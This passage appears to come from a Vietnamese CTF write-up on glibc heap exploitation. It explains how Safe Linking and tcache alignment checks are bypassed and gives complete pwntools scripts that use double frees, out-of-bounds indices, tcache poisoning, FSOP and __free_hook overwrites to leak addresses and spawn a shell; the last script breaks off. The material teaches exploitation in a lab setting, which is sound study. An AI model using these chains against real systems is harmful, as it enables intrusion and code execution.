>    larger pages provide less entropy, although the pointer mangling
>    still works.  */
> #define PROTECT_PTR(pos, ptr) \
>   ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
> #define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
>
> ```
> Cơ chế này sử dụng bao gồm 2 địa chỉ cho việc mã hóa đó là địa chỉ heap chứa con trỏ và con trỏ và được mã hóa bằng hàm `PROTECT_PTR()` theo một công thức: 
> `ptr_en = (pos >> 12) ^ ptr`
> Trong đó, hàm sử dụng địa chỉ heap chứa con trỏ là **pos** (position) dịch trái **12 bits** (ứng với trang kích thước 4096 bytes) và con trỏ là **ptr** (pointer). Kết quả trả về là con trỏ được mã hóa **ptr_en** (pointer_encrypted). Đồng thời cơ chế còn định nghĩa hàm `REVEAL_PTR()` với tham số là **ptr_en** và **ptr** để giải mã con trỏ.
> 
> Giả sử ta đang có một Double Free và hiện tại **Forward Pointer** đang trỏ đến chính chunk hiện tại: 
> 
> 
> 
> Ta thấy rằng giá trị của **Forward Pointer** sau khi bị mã hóa là `0x3c08b2217` là mã hóa của địa chỉ chunk hiện tại đó là `0x2c0b72a0`. Ta sẽ thực hiện tìm lại giá trị ban đầu của **Forward Pointer** với kết quả mong muốn là `0x2c0b72a0`:
> 
> Từ công thức trên, ta có công thức được biến đổi đển tìm giá trị ban đầu của **ptr** là  `ptr = (pos >> 12) ^ ptr_en` và **pos** đang là `0x2c0b72a0` và **ptr_en** là `0x3c08b2217`:
> 
> 
> 
> Vậy kết quả trùng khớp với địa chỉ chunk hiện tại.
> 
> Và điều này hoàn toàn có thể được bypass và ta vẫn có thể thực hiện việc Tcache Poisoning như bình thường nhưng phải thêm một bước đó là mã hóa địa chỉ mục tiêu mà ta muốn cấp phát tại đó. Cách mã hóa sẽ dựa vào công thức trên và ta sẽ có công thức để tạo ra con trỏ mã hóa là: `ptr_en = (pos >> 12) ^ ptr`.
> 
> Giả sử ta muốn thao túng để cấp phát chunk tại địa chỉ `0x404050` và ta sẽ tiến hành mã hóa địa chỉ này:
> 
> 
> 
> Ta sẽ thay đổi Forward Pointer hiện tại là `0x3c08b217` thành địa chỉ `0x404050` đã bị mã hóa thành `0x4380e7`:
> 
> 
> 
> Vậy lúc này ta đã thành công một lượt Tcache Poisoning bypass cơ chế **Safe Linking**.
> 
> Và giả sử ta cố tình truyền vào một con trỏ chưa được mã hóa:
> 
> 
> 
> Ta truyền vào giá trị `0x4344a4` và âm mưu muốn thực hiện Arbitrary Malloc tại đó và khi tiến hành cấp phát thì chương trình sẽ bị lỗi:
> 
> 

> Malloc Aligned Tcache
> ---
> Cơ chế thực hiện việc kiểm tra các chunk trong ngăn xếp **Tcache** xem chunk có địa chỉ chia hết cho `0x10 (16)` (64 bit) `0x8 (8)` (32 bit) hay không. Cơ chế được định nghĩa như sau:
> ```c=
> /* Caller must ensure that we know tc_idx is valid and there's available chunks to remove.  */
> static __always_inline void *
> tcache_get (size_t tc_idx)
> {
>   tcache_entry *e = tcache->entries[tc_idx];
>   if (__glibc_unlikely (!aligned_OK (e)))
>     malloc_printerr ("malloc(): unaligned tcache chunk detected");
>   tcache->entries[tc_idx] = REVEAL_PTR (e->next);
>   --(tcache->counts[tc_idx]);
>   e->key = 0;
>   return (void *) e;
> }
> ```
>
> Hàm `tcache_get()` được định nghĩa sẽ được gọi ở mỗi lần có một chunk được đưa ra khỏi **Tcache** để cấp phát và hàm sẽ tiến hành truy xuất đến chunk có địa chỉ là `e` từ `entry` có **index** là `tc_idx` và thực hiện kiểm tra việc căn chỉnh bằng hàm `algned_OK()` và nếu địa chỉ chunk không hợp lệ thì sẽ in ra thông báo `malloc(): unaligned tcache chunk detected` và nếu hợp lệ sẽ tiến hành cập nhật chunk ở đầu danh sách là chunk kế tiếp của chunk `e` (`e->next`) và cũng cập nhật lại số lượng chunk trong Tcache và xóa đi key trong chunk `e` và cuối cùng là trả về chunk được chuẩn bị để cấp phát`e`.
> 
> Giả sử ta có một **Double Free** và giờ ta muốn thao túng việc cấp phát một chunk tại địa chỉ `0x404058` và ta tiến hành mã hóa theo **Safe Linking** và chỉnh sửa **Forward Pointer**:
> 
> 
> 
> Ta tiến hành cấp phát chunk tại địa chỉ target và chương trình báo lỗi:
> 
> 
> 
> Ở đây, target chunk của chúng ta có địa chỉ không chia hết cho `0x10 (0x404058 / 0x10 = 263173.5)`. Và để bypass điều này ta chỉ đơn giản chọn một địa chỉ ở gần target để cấp phát với điều kiện là phải chia hết cho `0x10`.
> 
> Ta chọn một địa chỉ gần với `0x404058` là `0x404050` để cấp phát:
> 
> 
> 
> Và ta cấp phát chunk tại `0x404050` thành công:
> 
> 
> 
> Sau hàm `malloc()`, địa chỉ trả về tại rax là `0x404050`.

##### EXPLOIT
Việc khai thác đặc biệt cần mã hóa và giải mã hóa nên ta sẽ có 2 hàm trong script đó là `de()` (decrypt) và `gen()` (generate) lần lượt để giải mã và mã hóa địa chỉ.
```python3=
def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pos , ptr_en):
    pos = p64(pos >> 12)
    ptr_en = p64(ptr_en)
    return u64(xor(pos, ptr_en))
```

**Libc leak**: Tương tự với bài trên, ta cũng thực hiện leak libc từ tùy chọn thứ 4 bằng `put@GOT` sau khi thực hiện một **Double Free** để cấp phát một chunk tại địa chỉ của biến **ptr**. Nhưng lần này, ta cần chọn địa chỉ tại **ptr - 8** vì bản thân **ptr** đang không chia hết cho 0x10 và ta cần biết được địa chỉ heap nơi sẽ chứa **Forward Pointer**, sau đó dùng hàm `gen()` để mã hóa pointer target và chỉnh sửa. 

**Heap leak:** Ta sẽ tiến hành cấp phát và free chunk đầu tiên và tiến hành đọc nội dung của chunk bằng tùy chọn 4:



Vì chỉ có 1 chunk trong Tcache nên Forward Pointer hiện tại trỏ đến là NULL (0) nên khi thực hiện việc đọc dữ liệu ta sẽ có được `ptr_en` là mã hóa của NULL với `pos` hiện tại là `0x2eb6f2a0`. Nhưng xét lại công thức `ptr = (pos >> 12) ^ ptr_en`, với `ptr_en` hiện tại là 0 nên phép xor sẽ trả về kết quả là `pos >> 12` (`0x2eb6f`) và khi ta giải mã bằng cách dịch phải 12 bit thì địa chỉ được leak ra là `0x2eb6f000`. Vậy ta sẽ nhận được địa chỉ **Heap base** và để ra được vị trí đúng thì ta sẽ cộng nó với offset của chunk hiện tại là `0x2a0`.



Vậy ta đã leak được địa chỉ **heap** và ta sẽ tiến hành lượt **Double Free** đầu tiên và chỉnh sửa Forward Pointer thành **ptr - 8** thông qua việc sử dụng hàm `gen()`:



Với `ptr_en` được gen ra là `0x42ab3f` thì chương trình đã nhận diện được target chunk tại `0x404050` và ta tiến hành cấp phát target chunk với nội dung cấp phát ban đầu là `8 bytes padding + puts@GOT`:



Ta tiến hành đọc và ta có libc leak:





Vậy ta đã leak libc thành công.

**Cooking Shell**: Ở đây để get được shell ta không thể sử dụng `__free_hook` như ở bài trên mà ta sẽ có 2 hướng đó là dùng **FSOP** để leak stack, thực hiện việc ghi đè địa chỉ trả về của hàm `read()` (được gọi ngay sau khi cấp phát chunk) để thực hiện một ROPchain hoặc `FSOP` để getshell trực tiếp . 

Ta sẽ lần lượt đi 2 hướng nhưng trước hết để thực hiện được 1 **FSOP** thì ta cần thực hiện thêm một lần **Double Free** để cấp phát 1 chunk ngay tại `stdout`:



Ta cũng dùng hàm `gen()` với `ptr` là địa chỉ của `stdout` và `pos` được tính từ heap base đến chunk hiện tại để gen ra được `ptr_en` mã hóa cho địa chỉ `stdout` và chương trình đã nhận diện được target chunk và ta tiến hành cấp phát:



Cấp phát thành công và ta sẽ thiết lập các thông tin cần thiết để ghi đè `stdout`.

**FSOP for stack leak**: Ta sẽ thực hiện Fsop để thao túng hàm `puts()` trong hàm `menu()` để leak ra stack và ta sẽ thiết lập flag với chế độ là:
```
MAGIC         0xFBAD0000
CURRENTLY_PUTTING 0x0800 
IS_APPENDING      0x1000
```

Và thiết lập `write_base` thành địa chỉ mà ta muốn ghi (ở đây là địa chỉ của `environ`) và `write_ptr` thành địa chỉ `environ + 8`, đồng thời ta thiết lập `write_end`, `buf_base`, `buf_end` thành mặc định như ban đầu của struct `stdout` là `stdout+131`, với `buf_end` là `stdout+132`. Sau đó ta cho các dữ liệu này là dữ liệu khởi tạo của chunk và ghi nó vào và vậy là ta đã ghi đè được các thông số cần thiết của `stdout`:





Và ta đã có được **stack** leak.

Để tiến hành được việc ghi đè địa chỉ trả về của hàm `read()`, ta cần tính toán địa chỉ **stack** cho chuẩn để trỏ đến nơi lưu địa chỉ trả về và đồng thời cũng phải tiến hành thêm một lần **Double Free** nữa để tạo một chunk tại địa chỉ đó:



Ta đã thành công **Double Free** và ghi đè được **Forward Pointer** thành địa chỉ stack mà ta tính toán và giờ ta chỉ việc cấp phát chunk tại đó và ghi đè địa chỉ trả về của hàm `read()` trong bước cấp phát:



Ta cấp phát thành công và giờ ta tiến hành khởi tạo dữ liệu tại đó:



**Lưu ý:** bước này cần được thử khá nhiều lần vì ta cần làm lựa chọn địa chỉ stack vừa có thể bypass được **Malloc Aligned Tcache** và vừa không chỉnh sửa dữ liệu quan trọng của chương trình và do vậy địa chỉ stack target được tính ra sẽ cách khá xa với địa chỉ trả về của hàm `read()` nên ta sẽ có các byte padding hoặc ghi lại như mặc định các địa chỉ tại padding và ghi ROPchain ta đã thiết lập vào.



Và cuối cùng ta đã có được shell.

=> **Challenge hoàn thành !**

**FSOP for shell**: Ở đây ta sẽ thực hiện thao túng `puts()` và ghi đè `vtable` của `stdout` để gọi `IO_wfile_underflow` và hàm sẽ gọi tiếp hàm `__libio_codecvt_in` và từ đó ta sẽ có các thông số được setup:
- `flag`: thiết lập thành giá trị có thể bypass các kiểm tra: `0x3b01010101010101`.
- `read_end`: thiết lập thành giá trị của hàm `system()`.
- `write_ptr`: thiết lập thành chuỗi '/bin/sh'.
- `buf_end`: thiết lập thành gadget `add rdi, 0x10, jmp rcx`
- `lock`: thiết lập thành giá trị lock mặc định.
- `codecvt`: thiết lập thành `stdout+168` và tại đó thiết lập thành `stdout+24`.
- `wide_data`: thiết lập thành giá trị mặc định của `widedata`.
- `vtable`: thiết lập thành vtable fake là bảng `wfile_jumps - 0x18` để khi đó hàm `puts()` sẽ gọi hàm `wfile_underflow()`.

Sau khi ta cấp phát chunk tại `stdout` thì ta sẽ tiến hành thiết lập giá trị khởi tạo là fake stdout mà ta đã chuẩn bị:



Ta cho chương trình thực thi tiếp và ta có được shell:



=> **Challenge hoàn thành !**

##### FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('chall_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def buy(size, data):
    slna(b'> ',1)
    slna(b'Size: ',size)
    sa(b'Content: ',data)

def w(data):
    slna(b'> ',2)
    sa(b'Content: ',data)

def er():
    slna(b'> ',3)

def read():
    slna(b'> ',4)

def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pos , ptr_en):
    pos = p64(pos >> 12)
    ptr_en = p64(ptr_en)
    return u64(xor(pos, ptr_en))

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+78
        b*main+192
        b*main+407
        b*main+488

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])

#Double free
buy(512, b'abc')
er()

#For heap leak
read()
ru(b'Content: ')
leak = r(4)[:-1]
leak = leak.ljust(4,b'\0')
leak = u32(leak)
heap_base = leak << 12
info("Leak ptr: "+hex(leak))
info("Heap base: "+hex(heap_base))
w(b'0'*8+p64(0xcafef00d))
er()

# Poisoning for libc leak
fake = gen(heap_base+0x2d0, exe.sym.ptr-8)
info("Fake: "+hex(fake))
w(p64(fake))
buy(0x200, b'abc')
buy(0x200,p64(0x201)+p64(exe.got.puts))
read()
ru(b'Content: ')
lib = u64(r(6)+b'\0\0')
info("Libc leak: "+hex(lib))
libc.address = lib - 0x80ed0
info("Libc base: "+hex(libc.address))

#Double free again
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()

#Overwrite there for stdout overwrite
stdout = gen(heap_base+0x4b0,libc.address + 0x21a780)
info("Stdout: "+hex(stdout))
w(p64(stdout))

#Malloc for IO stdout overwrite
buy(512, b'\0')

#Build fake frame for shell | stack leak
lock = libc.address + 0x21ba70
vta = libc.sym._IO_wfile_jumps - 0x18
stdout = libc.sym._IO_2_1_stdout_
wdata = libc.address + 0x2199a0
adr = libc.sym.environ
sys = libc.sym.system
bis = u64(b"/bin/sh\0")
gad = libc.address + 0x0000000000163830
#Shell
# IO_file_fake = flat(
#     0x3b01010101010101,    # 0x00      0       - Ghi đè `_flags`
#     0,                     # 0x08      8       - `_IO_read_ptr`
#     sys,                     # 0x10      16      - `_IO_read_end`
#     0,                     # 0x18      24      - `_IO_read_base`
#     0,                     # 0x20      32      - `_IO_write_base`
#     bis,                     # 0x28      40      - `_IO_write_ptr`
#     0,                     # 0x30      48      - `_IO_write_end`
#     0,                     # 0x38      56      - `_IO_buf_base`
#     gad,                     # 0x40      64      - `_IO_buf_end`
#     0,                     # 0x48      72      - `_IO_save_base`
#     0,                     # 0x50      80      - `_IO_backup_base`
#     0,                     # 0x58      88      - `_IO_save_end`
#     0,                     # 0x60      96      - `_markers`
#     0,                     # 0x68      104     - `_chain`,
#     0,                     # 0x70      112     - `_flagno`
#     0,                     # 0x78      120     - `_flags2`
#     0,                     # 0x80      128     - `_old_offset`
#     lock,                  # 0x88      136     - `_lock`
#     0,                     # 0x90      144     - `_unused1`
#     stdout+168,                     # 0x98      152     - `_codecvt
#     wdata,                     # 0xa0      160     - `_wide_data`
#     stdout+24,                     # 0xa8      168     - `unknown2`
#     0,                     # 0xb0      176     - `_unused5`
#     0,                     # 0xb8      184     - `_unused6`
#     0,                     # 0xc0      192     - `_unused7`
#     0,                     # 0xc8      200     - `_unused8`
#     0,                     # 0xd0      208     - `_unused9`
#     vta,                   # 0xd8      216     - `vtable`
#     )

#For stack leak
IO_file_fake = flat(
    0xfbad1800,    # 0x00      0       - Ghi đè `_flags`
    0,                     # 0x08      8       - `_IO_read_ptr`
    0,                     # 0x10      16      - `_IO_read_end`
    0,                     # 0x18      24      - `_IO_read_base`
    adr,                     # 0x20      32      - `_IO_write_base`
    adr+8,                     # 0x28      40      - `_IO_write_ptr`
    stdout+131,                     # 0x30      48      - `_IO_write_end`
    stdout+131,                     # 0x38      56      - `_IO_buf_base`
    stdout+132,                     # 0x40      64      - `_IO_buf_end`
    # 0,                     # 0x48      72      - `_IO_save_base`
    # 0,                     # 0x50      80      - `_IO_backup_base`
    # 0,                     # 0x58      88      - `_IO_save_end`
    # 0,                     # 0x60      96      - `_markers`
    # 0,                     # 0x68      104     - `_chain`,
    # 0,                     # 0x70      112     - `_flagno`
    # 0,                     # 0x78      120     - `_flags2`
    # 0,                     # 0x80      128     - `_old_offset`
    # lock,                  # 0x88      136     - `_lock`
    # 0,                     # 0x90      144     - `_unused1`
    # 0,                     # 0x98      152     - `_codecvt
    # 0,                     # 0xa0      160     - `_wide_data`
    # 0,                     # 0xa8      168     - `unknown2`
    # 0,                     # 0xb0      176     - `_unused5`
    # 0,                     # 0xb8      184     - `_unused6`
    # 0,                     # 0xc0      192     - `_unused7`
    # 0,                     # 0xc8      200     - `_unused8`
    # 0,                     # 0xd0      208     - `_unused9`
    # vta,                   # 0xd8      216     - `vtable`
    )

#Malloc for overwriting struct for shell | for stack leak
#Stop here for shell
buy(512, IO_file_fake)

#Stack 
stack = ru(b'1')[:-3]
stack = stack.ljust(8, b'\0')
stack = u64(stack)
info("Stack leak: "+hex(stack))

#Double free 3rd
buy(512, b'abc')
er()
w(b'0'*8+ p64(0xcafef00d))
er()

stackgen = gen(heap_base+0x6c0,stack-0x178)
info("Stack gened: "+hex(stackgen))
w(p64(stackgen))
GDB()
#Malloc for overwriting stack
buy(512, b'abc')

info("Stack leak: "+hex(stack))
info("Stack gened: "+hex(stackgen))
info("Leak ptr: "+hex(leak))
info("Heap base: "+hex(heap_base))

#ROP for shell
ret = libc.address + 0x00000000000f99ab
prdi = libc.address + 0x000000000002a3e5
rop = flat(stack-0x10, 0, 0, stack-0x128, stack-0x10, ret, prdi, next(libc.search("/bin/sh\0")), sys)
buy(512, rop)
p.interactive()
```
---

### 2. Tcache Poisoning
#### IDA
Ta có hàm `main()` được decompile:


> Chương trình là một trình cho phép ta thao tác và lưu trữ note với các lựa chọn gồm: 
> - 1. Tạo thêm note
> - 2. Chỉnh sửa note
> - 3. Xóa note, 4. Đọc nội dung của note
> - 5. Thoát chương trình. 
> Đầu tiên ta sẽ được hỏi để nhập vào lựa chọn kèm với index, sau đó các hàm như `add_note(), edit_note(), remove_note(), read_note()` sẽ được gọi tùy thuộc vào lựa chọn với tham số là index.

Hàm `add_note()`:


> Hàm thực hiện kiểm tra index có hợp lệ hay không (<= 4) và sau đó yêu cầu ta nhập vào size của note và sau đó kiểm tra xem size có hợp lệ hay không (<= 0x410) và sau đó tiến hành thiết lập size vào phần tử thứ **idx** của mảng **notesize** và sau đó tiến hành cấp phát động chunk với kích thước từ người dùng và địa chỉ của chunk được lưu vào mảng **book[idx]**. Sau đó tiến hành set null tất cả dữ liệu trong note rồi tiến hành yêu cầu nội dung cho note mới tạo.

Hàm `edit_note()`:


> Hàm cũng tiến hành kiểm tra index và kiểm tra xem note đã được tạo chưa. Sau đó tiến hành syêu cầu dữ liệu từ người dùng với kích thước của note.

Hàm `remove_note()`:


> Hàm kiểm tra index và kiểm tra xem note đã được tạo chưa. Sau đó tiến hành giải phóng toàn bộ note và nội dùng, đồng thời xóa địa chỉ được cấp phát động tương ứng với note trong danh sách **book**.

Hàm `read_note()`:


> Hàm thực hiện kiểm tra index và kiểm tra xem note đã được tạo chưa, sau đó in dữ liệu từ note ra.

#### IDEA
Như vậy không tồn tại bất kì một lỗ hỏng nào để ta có thể thực hiện một **Double Free** nhưng ta thấy rằng các hàm đều kiểm tra index chỉ bé hơn 4 mà không có ràng buộc lớn hơn 0 nên ta có thể dùng lỗ hỏng **Out Of Bound**. Với lỗ hỏng này ta có thể truy xuất đến index bé hơn 4 để leak dữ liệu. 

#### CHECKSEC
Ta có checksec chung cho file binary là:



> Partial RELRO: Bảng got có thể bị tấn công.
>
> No PIE: địa chỉ binary tĩnh có thể gọi các symbol của binary.

#### DEFINE FUNCTION
Để thuận tiện hơn cho khai thác ta sẽ tiến hành thiết lập các hàm trong script với các tùy chọn nhập vào trong chương trình:
```python3=
def add(idx, size, data):
    slna(b'> ',1)
    slna(b'Index: ',idx)
    slna(b'Size: ',size)
    sa(b'Data: ',data)

def ed(idx, data):
    slna(b'> ',2)
    slna(b'Index: ',idx)
    sa(b'Data: ',data)

def rm(idx):
    slna(b'> ',3)
    slna(b'Index: ',idx)

def rd(idx):
    slna(b'> ',4)
    slna(b'Index: ',idx)
```
---

#### 2.1 GLIBC 2.31
Đây là phiên bản libc phổ thông và đã có **Tcache**, ngoài ra không có thêm các cơ chế bảo mật nào đáng kể. 

##### EXPLOIT
**Libc leak**: Với lỗ hỏng **OutOfBound**, ta sẽ sử dụng hàm `read_note()` để có thể leak được địa chỉ libc tại index phù hợp.

Ta sẽ tìm kiếm tại các địa chỉ mà tại đó đang chứa địa chỉ của libc và khi đó sử dụng hàm `read_note()` sẽ in thẳng ra địa chỉ libc. Ta tìm được tại index `-1872`:



Vậy ta đã leak được địa chỉ libc.

**Cooking Shell**: Ta sẽ thực hiện một `__free_hook overwritting` để get được shell thông qua việc cấp phát một chunk tại `__free_hook`. Để làm được điều đó thì ta cần thực hiện việc overwrite **Forward Pointer** **(Tcache Poisoning)** của một chunk trong Tcache thông qua một `Heap Overflow` mà ta có thể thực hiện được thông qua việc kiểm soát size của chunk.

Vì size của các chunk được lưu trên vùng `bss` của chương trình và ở kế danh sách các chunk nên ta có thể sử dụng lỗ hỏng **Out Of Bound** tại **index** âm để overwrite size của chunk tại **index** `0` bằng chính địa chỉ của một chunk. Trước hết ta cần cấp phát một chunk tại index `0`, sau đó cấp phát tiếp `2` chunk tại index `2` và `3` nhằm mục đích **Arbitrary Malloc**:



Ta đã có 3 chunk với size `0x91` và khi này ta sẽ tiến hành xem xét đến biến `notesize`:



Tại `book` đang là chunk có index `0` và theo đó để overwrite được size của **chunk[0]** thì ta cấp phát một chunk tại index `-4` và khi đó địa chỉ của **chunk[-4]** sẽ là size của **chunk[0]**:



Khi này ta đã có thể thực hiện việc `heap overflow` từ **chunk[0]** xuống **chunk[2]** và **chunk[3]**. Ta sẽ giải phóng lần lượt **chunk[3]** và **chunk[2]** để **chunk[3]** sẽ là chunk đầu tiên được đưa vào **Tcache** và **chunk[2]** vào sau đó. Khi này **Forward Pointer** của **chunk[2]** sẽ trỏ đến **chunk[3]** và ta có thể overwrite thành địa chỉ của `__free_hook`:



Sau khi free 2 chunk trên thì ta có **Forward Pointer** của **chunk[2]** đang trỏ đến **chunk[3]** và lúc này ta sẽ chỉnh sửa nội dung **chunk[0]** nằm ngay trên **chunk[2]** để ghi đè **Forward Pointer** thành địa chỉ của `__free_hook` và phải đảm bảo metadata cho **chunk[2]**:



Vậy ta đã ghi đè thành công và ta cần phải cấp phát chunk thứ `2` trong Tcache và thiết lập nội dung là chuỗi `/bin/sh` và cấp phát tiếp chunk tại `__free_hook` và thiết lập nội dung tại đó là hàm `system()`:



Vậy ta đã thiết lập thành công và giờ ta sẽ cho free chunk chứa chuỗi `/bin/sh`:



Vậy ta đã thành công get shell.

=> **Challenge hoàn thành !**

##### FULLSCRIPT
```python=
#!/usr/bin/env python3

from pwn import *

exe = ELF('chall1_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def add(idx, size, data):
    slna(b'> ',1)
    slna(b'Index: ',idx)
    slna(b'Size: ',size)
    sa(b'Data: ',data)

def ed(idx, data):
    slna(b'> ',2)
    slna(b'Index: ',idx)
    sa(b'Data: ',data)

def rm(idx):
    slna(b'> ',3)
    slna(b'Index: ',idx)

def rd(idx):
    slna(b'> ',4)
    slna(b'Index: ',idx)

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+90
        b*add_note+166
        b*remove_note+115

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p

host = ''
port = 0

if args.REMOTE:
    # p = remote(host,port,ssl=True)
    p = remote(host,port)
else:
    p = process([exe.path])
GDB()

# Libc leak using out of bound
rd(-1872)
ru(b'Data: ')
lib = u64(r(6)+b'\0\0')
libc.address = lib - 0x26f30
info("Libc leak: "+hex(lib))
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x1c5b28

# Using Hook Overwrite for shell
# This chunk for heap overflow
add(0, 0x50, b'a'*8)

# These chunk for poisoning
add(2, 0x50, b'b'*8)
add(3, 0x50, b'c'*8)

# Overite size note index 0
add(-4, 0x50, b'a'*8)
# Now, the size of note[0] is overwritten resulting in the heap overflow from chunk[0] to chunk[2] & [3]

# Remove chunk[3] first for the later allocation for /bin/sh
rm(3)
# Remove chunk[2] for the first allocation at hook
rm(2)

# Payload for the overwriting
p0 = flat(b'a'*0x58, 0x51, hook)

# Heap overflow -> overwrite the forward pointer of chunk 2 (replace &chunk[3] by hook address)
ed(0, p0)
# GDB()
# Remember not to allocate at idx 0 and 1 because notesize is now bring the pointer of the chunk[-4]
# Allocate for address of /bin/sh (the later freed chunk)
add(2, 0x50, b'/bin/sh\0')
# Allocate chunk 2 for hook overwrite to system (the first freed chunk now is replaced by free hook)
add(3, 0x50, p64(libc.sym.system))

# Free now will call free_hook(now is system) and the first arg is address of /bin/sh
rm(2)
p.interactive()
```
---
#### 2.2 GLIBC 2.32
Tại phiên bản này đã được thêm vào **Tcache** và có cơ chế bảo vệ **Safe Linking** và **Malloc Alignment Tcache** với nguyên lý hoạt động đã được nêu ở trên nên ta sẽ có thêm 2 hàm `gen()` và `de()` được thêm vào trong script.
```python3=
def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pen, ptr):
    pen = p64(pen)
    ptr = p64(ptr)
    return u64(xor(pen, ptr))
```

##### EXPLOIT
**Libc leak**: Như ở trên ta vẫn sẽ dùng tùy chọn 4 tại index `-1872` để leak ra libc:



Vậy ta đã leak được libc.

**Cooking Shell**: Ở phiên bản này đặc biệt vẫn có thể thực hiện `Free_Hook Overwrite` để get shell và với ý đồ như ban đầu là ta sẽ cấp phát 3 chunk với index `0`,`2`,`3`, sau đó cấp phát tiếp **chunk[-4]** để kiểm soát **chunk[0] size** và thực hiện free theo tuần tự **chunk[3]** và **chunk[2]** rồi sau đó thực hiện overwrite **Forward Pointer** của **chunk[2]** thành địa chỉ `__free_hook` đã được mã hóa bằng hàm `gen()`:



Ta đã có các chunk cần thiết và giờ ta thực hiện free **chunk[3]** và **chunk[2]**:



Để hàm `gen()` có thể tạo được **Pointer** mã hóa thì ta cần vị trí đặt **Pointer** nghĩa là ta cần địa chỉ Heap leak và ta sẽ tiến hành một `Heap Overflow` dữ liệu để chạm được đến giá trị của **key** là một địa chỉ heap trước và sử dụng tùy chọn 4 để in ra và giá trị **key** sẽ được in ra theo đó:



Và sau đó giá trị **key** `0x3b138010` sẽ được in ra:



Vậy ta đã có heap leak và ta chỉ cần tính toán địa chỉ đúng vị trí đặt địa chỉ `__free_hook` vào và tiến hành `Heap Overflow` lần nữa để ghi đè:



Vậy ta đã ghi đè được **Forward Pointer** và giờ ta sẽ cấp phát **chunk[2]** với chuỗi `/bin/sh` là nội dung và cuối cùng là **chunk[3]** cấp phát tại `__free_hook` với nội dung là địa chỉ hàm `system()`:



Cuối cùng ta tiến hành free **chunk[2]** để get shell:





Và ta đã get được shell.

=> **Challenge hoàn thành !**

##### FULLSCRIPT
```python3=
#!/usr/bin/env python3

from pwn import *

exe = ELF('chall1ok', checksec=False)
libc = ELF('libc.so.6', checksec=False)
# ld = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()

def add(idx, size, data):
    slna(b'> ',1)
    slna(b'Index: ',idx)
    slna(b'Size: ',size)
    sa(b'Data: ',data)

def ed(idx, data):
    slna(b'> ',2)
    slna(b'Index: ',idx)
    sa(b'Data: ',data)

def rm(idx):
    slna(b'> ',3)
    slna(b'Index: ',idx)

def rd(idx):
    slna(b'> ',4)
    slna(b'Index: ',idx)

def gen(pos, ptr):
    pos = p64(pos >> 12)
    ptr = p64(ptr)
    return u64(xor(pos, ptr))

def de(pen, ptr):
    pen = p64(pen)
    ptr = p64(ptr)
    return u64(xor(pen, ptr))

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+90
        b*add_note+166
        b*remove_note+115

        c
        ''')
        input()
        # p = gdb.debug([exe.path],"""
        #     b*
        #     c
        #     """)
        # input()
        # return p

